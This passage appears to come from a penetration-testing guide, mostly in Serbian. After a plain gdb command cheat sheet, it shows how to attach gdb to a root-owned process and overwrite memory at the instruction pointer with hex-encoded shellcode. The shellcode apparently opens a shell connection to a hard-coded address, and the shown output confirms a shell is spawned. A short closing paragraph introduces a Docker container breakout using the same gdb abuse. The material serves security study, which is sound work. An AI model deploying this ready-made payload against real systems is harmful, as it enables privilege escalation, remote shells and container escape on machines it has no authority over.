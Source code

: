 ```bash
(gdb) break <function>
(gdb) continue
(gdb) next
(gdb) step
(gdb) finish
```

```bash
(gdb) print <variable>
(gdb) set variable <variable> = <value>
(gdb) display <variable>
(gdb) undisplay <N>
```

```bash
(gdb) backtrace
(gdb) frame <N>
(gdb) up
(gdb) down
```

```bash
(gdb) info breakpoints
(gdb) delete <N>
(gdb) disable <N>
(gdb) enable <N>
```

```bash
(gdb) quit
```

```bash
# In this case there was a sleep run by root
## NOTE that the process you abuse will die after the shellcode
/usr/bin/gdb -p $(pgrep sleep)
[...]
(gdb) set {long}($rip+0) = 0x296a909090909090
(gdb) set {long}($rip+8) = 0x5e016a5f026a9958
(gdb) set {long}($rip+16) = 0x0002b9489748050f
(gdb) set {long}($rip+24) = 0x48510b0e0a0a2923
(gdb) set {long}($rip+32) = 0x582a6a5a106ae689
(gdb) set {long}($rip+40) = 0xceff485e036a050f
(gdb) set {long}($rip+48) = 0x6af675050f58216a
(gdb) set {long}($rip+56) = 0x69622fbb4899583b
(gdb) set {long}($rip+64) = 0x8948530068732f6e
(gdb) set {long}($rip+72) = 0x050fe689485752e7
(gdb) c
Continuing.
process 207009 is executing new program: /usr/bin/dash
[...]
```

**Primer sa okruženjem (Docker probijanje) - Još jedna zloupotreba gdb-a**

Ako je **GDB** instaliran (ili ga možete instalirati sa `apk add gdb` ili `apt install gdb` na primer), možete **debugirati proces sa hosta** i naterati ga da pozove funkciju `system`. (Ova tehnika takođe zahteva mogućnost `SYS_ADMIN`).

